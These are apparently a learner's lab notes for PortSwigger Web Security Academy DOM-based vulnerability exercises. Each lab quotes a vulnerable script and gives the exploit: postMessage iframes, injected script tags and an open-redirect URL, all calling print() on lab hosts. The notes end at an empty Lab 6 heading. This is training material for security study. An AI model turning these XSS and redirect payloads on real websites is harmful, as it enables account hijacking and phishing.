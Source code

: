 ## Lab - 1: DOM-based open redirection

- This lab contains a DOM-based open-redirection vulnerability. To solve this lab, exploit this vulnerability and redirect the victim to the exploit server.

- Vulnerable script may be at `/post?postId=1` page

```html
<a
  href="#"
  onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'
  >Back to Blog</a
>
```

```
https://0a6a008d033583b9c00962fb00c600c1.web-security-academy.net/post?postId=1&url=https://exploit-server.com#
```

---

## Lab - 2: DOM-based cookie manipulation

- This lab demonstrates DOM-based client-side cookie manipulation. To solve this lab, inject a cookie that will cause XSS on a different page and call the print() function. You will need to use the exploit server to direct the victim to the correct pages.

- Vulnerable script may be at `/post?postId=1` page

```html
<script>
  document.cookie =
    "lastViewedProduct=" + window.location + "; SameSite=None; Secure";
</script>
```

In the exploit server body,

```html
<iframe
  src="https://your-lab-id.web-security-academy.net/product?productId=1&'><script>print()</script>"
  onload="if(!window.x)this.src='https://your-lab-id.web-security-academy.net';window.x=1;"
></iframe>
```

---

## Lab - 3: DOM XSS using web messages

- Vuln JS script that was found

```html
<script>
  window.addEventListener("message", function (e) {
    document.getElementById("ads").innerHTML = e.data;
  });
</script>
```

- In exploit server body,

```html
<iframe
  src="https://0afd00cd0391a181c0cd832300ce0055.web-security-academy.net/"
  onload="this.contentWindow.postMessage('<img src=x onerror=print()>', '*')"
></iframe>
```

---

## Lab - 4: DOM XSS using web messages and a JavaScript URL

- Vulns JS script that was found

```html
<script>
  window.addEventListener(
    "message",
    function (e) {
      var url = e.data;
      if (url.indexOf("http:") > -1 || url.indexOf("https:") > -1) {
        location.href = url; // sink
      }
    },
    false
  );
</script>
```

- In exploit server body

```html
<iframe
  src="https://0a4b0006031a9db0c0a30b33006c005f.web-security-academy.net/"
  onload="this.contentWindow.postMessage('javascript:print()//http:', '*')"
></iframe>
```

---

## Lab - 5: DOM XSS using web messages and JSON.parse

- Vulns JS script

```html
<script>
  window.addEventListener(
    "message",
    function (e) {
      var iframe = document.createElement("iframe"),
        ACMEplayer = { element: iframe },
        d;
      document.body.appendChild(iframe);
      try {
        d = JSON.parse(e.data); //JSON object
      } catch (e) {
        return;
      }
      switch (d.type) {
        case "page-load":
          ACMEplayer.element.scrollIntoView();
          break;
        case "load-channel":
          ACMEplayer.element.src = d.url; // sink
          break;
        case "player-height-changed":
          ACMEplayer.element.style.width = d.width + "px";
          ACMEplayer.element.style.height = d.height + "px";
          break;
      }
    },
    false
  );
</script>
```

- In exploit server body,

```html
<iframe
  src="https://0a9400be04e7f017c06750dc00650083.web-security-academy.net/"
  onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'
></iframe>
```

---

## Lab - 6: Exploiting DOM clobbering to enable XSS
